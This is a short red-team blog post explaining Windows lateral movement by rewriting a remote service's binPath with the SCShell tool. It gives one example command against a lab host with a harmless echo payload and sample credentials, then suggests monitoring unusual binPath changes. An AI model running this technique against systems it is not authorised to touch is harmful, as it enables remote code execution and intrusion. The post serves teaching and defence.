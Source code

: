 ```yaml
---
layout: post
title: "lateral movement abusing service configuration manager"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement-abusing-service-configuration-manager/
---
```


---
layout: post
title: "lateral movement abusing service configuration manager"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement-abusing-service-configuration-manager/
---

# Lateral Movement via Service Configuration Manager

It's possible to execute commands on a remote host by abusing service configuration manager by changing the service binpath to your malicious command and restarting the service so your payload gets executed - this is all automated by a nice tool [SCShell](https://github.com/Mr-Un1k0d3r/SCShell)

## Execution

Scshell expects the following arguments: target, service, payload, username, domain, password:

{% tabs %}
{% tab title="attacker@target" %}
```
.\scshell.exe ws01 XblAuthManager "C:\windows\system32\cmd.exe /c echo 'lateral hello' > c:\temp\lat.txt" spotless offense 123456
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/scshell.gif)

## Considerations

From the defensive side, you may want to consider about monitoring services that change their binPaths "too often" as this may not be normal in your environment, especially if the binPath is "very" different ([Levenshtein](https://www.google.com/search?q=levenshtein+distance\&oq=levensht\&aqs=chrome.1.69i57j0l5.2647j0j7\&sourceid=chrome\&ie=UTF-8)) to the previously known good value and if the service configuration is being changed over the network:

![](<../../.gitbook/assets/image (245).png>)

## References

{% embed url="https://github.com/Mr-Un1k0d3r/SCShell" %}
@spotheplanet
